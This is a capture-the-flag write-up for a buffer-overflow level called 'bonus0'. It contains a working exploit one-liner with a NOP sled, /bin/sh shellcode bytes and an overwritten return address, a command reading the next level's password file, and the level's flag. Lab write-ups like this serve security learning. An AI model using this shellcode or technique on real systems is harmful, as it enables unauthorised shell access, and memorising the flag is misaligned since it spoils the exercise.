 # Bonus 0

This time the executable takes 2 inputs and copies the first 20 characters in a 20 character array. It replacse the terminating newline character by a null byte but it still copies only the 20 first bytes so if there is no \n in the first 20 characters it will not put one in the final buffer. We will use a NOP slope to place our shellcode somewhere in the memory far enough to not be overritten by the second input and so we do not need to pinpoint the exact address of the shellcode which will make it easier to not have any \x00 in the final address. Then we want to overflow in  EIP pointer and put any address within the NOP slope before the shellcode (it needs to be far enough to be in the part that is not affected by the second input).

```bash
(python -c 'print "\x90" * 128 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80"'; python -c 'print " " * 9 + "\xf0\xe6\xff\xbf" + "N" * 42'; cat) | ./bonus0
```
``cat /home/user/bonus1/.pass``

**Flag:** `cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9`

